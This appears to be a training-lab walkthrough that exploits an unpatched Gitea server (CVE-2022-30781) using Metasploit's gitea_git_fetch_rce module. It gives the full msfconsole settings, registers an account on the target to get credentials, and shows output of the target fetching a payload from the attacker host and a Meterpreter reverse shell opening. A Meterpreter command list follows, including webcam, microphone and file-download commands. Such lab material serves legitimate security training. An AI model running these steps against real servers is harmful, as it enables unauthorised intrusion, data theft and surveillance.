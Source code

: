 +++
title = "Unpatched Gitea"
weight = 1
+++

## 1. Searching Metasploit
Start up your *msfconsole* and search for the Gitea exploit.
`search gitea`
![](./metasploit01.png)
You will recall that your target Gitea server is potentially vulnerable to *CVE-2022-30781* and that the remediation commit in Github 
references escaping the git fetch remote URL.  In this case we're interested in option *#0*.  Load up this exploit module with either:

`use 0`

`use exploit/multi/http/gitea_git_fetch_rce`

## 2. Attempting the exploit
Typing *show options* tells us we need to set a couple of options

* **RHOSTS** - Our target IP address
* **LHOST**  - The IP of our attacking machine
* **USERNAME** - Presumably Gitea credentials
* **PASSWORD** - Presumably Gitea credentials

Setting values within *msfconsole* is really straight forward.

 * `set RHOSTS 192.168.0.105`
 * `set LHOST 192.168.0.103`
 * `set USERNAME guest`
 * `set PASSWORD guest`
 * `set SRVPORT 8181` - The port on our machine we'll tell Gitea to connect to
 * `set ForceExploit true` - Ignores whatever the *check* module returns
 * `run` - Try the exploit

```bash
[*] Started reverse TCP handler on 192.168.0.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. Check TARGETURI - Unexpected HTTP response code ForceExploit is enabled, proceeding with exploitation.
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/3oYWb2XU9
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitea_git_fetch_rce) > 
```

## 3. Creating a user
It looks like our exploit will require valid credentials to Gitea.  Check if the server allows account creation.
![](./gitea01.png)

It looks like we can create a new user account!
![](./gitea02.png)

Now head back to your *msfconsole* and set the *USERNAME* and *PASSWORD* for the user account you just created and try the exploit again.

```bash
[*] Started reverse TCP handler on 192.168.0.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/bnQOtbfkgbqrJGD
[*] Client 192.168.0.105 (curl/7.47.0) requested /bnQOtbfkgbqrJGD
[*] Sending payload to 192.168.0.105 (curl/7.47.0)
[*] Sending stage (3045348 bytes) to 192.168.0.105
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Meterpreter session 1 opened (192.168.0.103:4444 -> 192.168.0.105:42720) at 2023-03-21 14:46:55 -0500

meterpreter > 
```

## 4. Meterpreter basics

You can return to your *msfconsole* at any time simply by issuing the **background** command. 
While in the *msfconsole* you can type **sessions** to get a list of active meterpreter sessions and then `sessions -i 0`
 where 0 is the Id of the session you want to interact with that session.

![](./meterpreter1.png)

* Type `help` to get a list of available meterpreter commands

```
Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    background    Backgrounds the current session
    bg            Alias for background
    bgkill        Kills a background meterpreter script
    bglist        Lists running background scripts
    bgrun         Executes a meterpreter script as a background thread
    channel       Displays information or control active channels
    close         Closes a channel
    detach        Detach the meterpreter session (for http/https)
    disable_unic  Disables encoding of unicode strings
    ode_encoding
    enable_unico  Enables encoding of unicode strings
    de_encoding
    exit          Terminate the meterpreter session
    guid          Get the session GUID
    help          Help menu
    info          Displays information about a Post module
    irb           Open an interactive Ruby shell on the current session
    load          Load one or more meterpreter extensions
    machine_id    Get the MSF ID of the machine attached to the session
    pry           Open the Pry debugger on the current session
    quit          Terminate the meterpreter session
    read          Reads data from a channel
    resource      Run the commands stored in a file
    run           Executes a meterpreter script or Post module
    secure        (Re)Negotiate TLV packet encryption on the session
    sessions      Quickly switch to another session
    use           Deprecated alias for "load"
    uuid          Get the UUID for the current session
    write         Writes data to a channel


Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    chmod         Change the permissions of a file
    cp            Copy source to destination
    del           Delete the specified file
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcat          Read the contents of a local file to the screen
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory


Stdapi: Networking Commands
===========================

    Command       Description
    -------       -----------
    arp           Display the host ARP cache
    getproxy      Display the current proxy configuration
    ifconfig      Display interfaces
    ipconfig      Display interfaces
    netstat       Display the network connections
    portfwd       Forward a local port to a remote service
    resolve       Resolve a set of host names on the target
    route         View and modify the routing table


Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    shell         Drop into a system command shell
    suspend       Suspends or resumes a list of processes
    sysinfo       Gets information about the remote system, such as OS


Stdapi: Webcam Commands
=======================

    Command       Description
    -------       -----------
    webcam_chat   Start a video chat
    webcam_list   List webcams
    webcam_snap   Take a snapshot from the specified webcam
    webcam_strea  Play a video stream from the specified webcam
    m


Stdapi: Mic Commands
====================

    Command       Description
    -------       -----------
    listen        listen to a saved audio recording via audio player
    mic_list      list all microphone interfaces
    mic_start     start capturing an audio stream from the target mic
    mic_stop      stop capturing audio


Stdapi: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target system

meterpreter > 
```

There is quite a bit you can do with a meterpreter session and there is no need for me to rewrite the great documentation 
that already exists.  So here are a few external links for you to check out on your own.

* [https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/)
* [https://www.offsec.com/metasploit-unleashed/meterpreter-basics/](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/) 
* [https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/linux/x86/meterpreter/reverse_tcp.md](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/linux/x86/meterpreter/reverse_tcp.md)
